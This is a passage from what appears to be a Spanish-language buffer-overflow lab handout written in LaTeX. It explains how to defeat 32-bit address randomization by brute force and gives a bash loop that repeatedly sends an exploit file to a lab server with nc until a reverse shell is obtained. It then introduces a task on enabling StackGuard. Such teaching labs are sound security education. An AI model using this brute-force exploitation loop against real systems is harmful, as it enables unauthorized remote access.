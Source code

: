\paragraph{Evadiendo 32-bits randomization.}
Es sabido que en máquinas linux de 32-bits, sólo 19 bits pueden ser usados para hacer address randomization. Eso no es lo suficientemente robusto y podemos evadir esta protección corriendo el ataque un número determinado de veces hasta lograr una explotación exitosa. Por otro lado en máquinas de 64-bits, el número de bits usado para esta protección fue incrementado de forma significativa.

En esta Tarea, intentaremos evadir esta protección en el servidor de 32-bits del Level 1.
Nos serviremos del método de fuerza bruta para atacar el servidor repetidamente, con la intención de poder acertar la dirección de memoria que colocaremos en nuestro payload.
Usaremos el payload de ataque del Level 1.
Puede utilizar el script bash dado a continuación, este script correrá el ataque dentro de un loop infinito. Si el ataque es exitoso y se obtiene una shell reversa, el script detendrá su ejecución, de lo contrario seguirá corriendo.
Si tiene suerte, debería obtener una shell reversa a los 10 minutos de lanzado el ataque.

\begin{lstlisting}[language=bash]
#!/bin/bash

SECONDS=0
value=0
while true; do
  value=$(( $value + 1 ))
  duration=$SECONDS
  min=$(($duration / 60))
  sec=$(($duration % 60))
  echo "$min minutes and $sec seconds elapsed."
  echo "The program has been running $value times so far."
  cat badfile | nc 10.9.0.5 9090
done
\end{lstlisting}



\section{Tarea 7: Experimentando con otras Contramedidas}

\subsection{Tarea 7.a: Activando StackGuard}

Muchos compiladores como \texttt{gcc} implementan un mecanismo de seguridad llamado \textit{StackGuard} esta protección está destinada a prevenir ataques a programas con vulnerabilidades de buffer overflow. Los programas vulnerables que hemos estado usando tienen esta protección desactivada. 
En esta tarea, la activaremos para ver que es lo que pasa.

